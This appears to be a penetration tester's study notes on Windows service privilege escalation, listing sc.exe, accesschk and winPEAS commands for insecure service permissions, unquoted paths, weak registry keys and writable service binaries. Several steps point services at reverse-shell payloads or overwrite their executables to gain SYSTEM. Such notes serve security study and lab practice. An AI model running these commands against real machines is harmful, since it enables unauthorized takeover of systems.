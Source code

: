 # Service Exploits
-------

```cmd
sc.exe qc <name> REM query service configuration
```

```cmd
sc.exe query <name> REM query current status
```

```cmd
sc.exe config <name> <option>= <value> REM modify configuration option
```

```cmd
net start/stop <name> REM start stop
```

```cmd
accesschk.exe /accepteula -ucqv user regsvc REM check permissions for a service

accesscheck.exe /accepteula -uvw "C:\Program Files"
REM check permissions
```

Winpeas:
```cmd
.\winPEASany.exe quiet servicesinfo
```

Check the service status using:
```cmd
sc.exe query "C:\Program Files\Development Files\Devservice Files\Service.exe"
```

If we have shutdown privilege, restart the computer to restart the service
```cmd
shutdown.exe -r -f -t 1
```


---------------

## Insecure Service Permissions

## Permission to ChangeConfig for a service:

If the user has permissvons to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to a malicious one; granted we can start/stop the service or restart the machine.

```cmd
daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped

YOU CAN MODIFY THIS SERVICE: ChangeConfig
```


Query  service configuration:
```cmd
sc qc daclsvc
```

Query service status:
```cmd
sc query daclsvc
```

Set the binary path to the location of the payload:
```
sc config daclsvc binpath= "\"C:\Temp\reverse.exe""
```

Start the service:
```cmd
net start daclsvc
```

Using access check to check permissions:
```cmd
.\accesschk.exe /accepteula -uwcqv user daclsvc
```


--------------

## Unquoted Service Paths

https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths

Checking for unquoted service paths:
```cmd
HKLM\SYSTEM\CurrentControlSet\Services\Servicename
```

```cmd
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Checking if we have write permissions over the directory using accesschk:

```cmd
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

Create an executable and place it in the folder; then restart the service.

-----------------

## Weak Registry Permissions
## Insecure Registry Services

Lookout for **Modify any service registry** in winpeas

```cmd
Check if you can modify the registry of a service

HKLM\system\currentcontrolset\services\regsvc (Interactive [FullControl])
```

Once found, we can edit registry entry for a service;
we can use powershell or accesschk to verify permissions:

```bash
sc.exe qc regsvc
```

```cmd
reg query HKLM\system\currentcontrolset\services\regsvc
```


```cmd
reg add HKLM\system\currentcontrolset\services\regsvc /v imagePath /t REG_EXPAND_SZ /d C:\Users\user\Desktop\shell.exe /f
```

```cmd
net start regsvc
```

```Powershell
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

```cmd
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

- [ ] Check more on this!!!!!!!

-------------------

## Insecure Service Executables
## File Permissions


If the original service exe is modifiable by our user, we can replace it w a malicious one to get back a reverse shell.

```cmd
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"]

File Permissions: Everyone [AllAccess]
```

```cmd
icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
```

```cmd
copy shell.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```
net start filepermsvc
```

-------------


## DLL Hijacking

If a DLL is loaded with an absolute path and is writable by our user, we can elevate privileges.

We can also abuse this if a DLL is missing from the system and our user has write access to the directory.
